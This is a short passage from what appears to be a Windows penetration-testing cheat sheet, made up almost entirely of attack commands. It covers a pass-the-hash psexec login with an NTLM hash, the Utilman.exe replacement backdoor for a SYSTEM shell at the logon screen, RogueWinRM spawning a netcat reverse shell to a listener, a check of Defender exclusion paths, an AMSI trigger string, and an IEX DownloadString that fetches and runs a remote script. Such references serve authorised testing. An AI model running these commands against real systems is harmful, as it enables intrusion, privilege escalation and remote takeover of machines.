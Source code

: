 **Pass the Hash**

```c
$ psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@<RHOST>
```

**SeTakeOwnership Privilege**

```c
C:\> takeown /f C:\Windows\System32\Utilman.exe
```

```c
C:\> icacls C:\Windows\System32\Utilman.exe /grant Everyone:F
```

```c
C:\Windows\System32\> copy cmd.exe utilman.exe
```

Click the `Ease of Access` button on the logon screen to get a shell with `NT Authority\System` privileges.

**SeImpersonate and SeAssignPrimaryToken Privilege**

> https://github.com/antonioCoco/RogueWinRM

```c
C:\> .\RogueWinRM.exe -p "C:\> .\nc64.exe" -a "-e cmd.exe <LHOST> <LPORT>"
```

#### WMIC

```c
C:\> wmic product get name,version,vendor
```

### Microsoft Windows Defender

#### Check Whitelisted Paths

```c
PS C:\> reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths"
```

#### Malicious Test String

```c
PS C:\> $str = 'amsiinitfailed'
```

### Minimalistic Offensive Security Tools

> https://github.com/InfosecMatter/Minimalistic-offensive-security-tools

#### port-scan-tcp.ps1

```c
PS C:\> IEX(New-Object Net.WebClient).DownloadString('http://<RHOST>/port-scan-tcp.ps1')
```
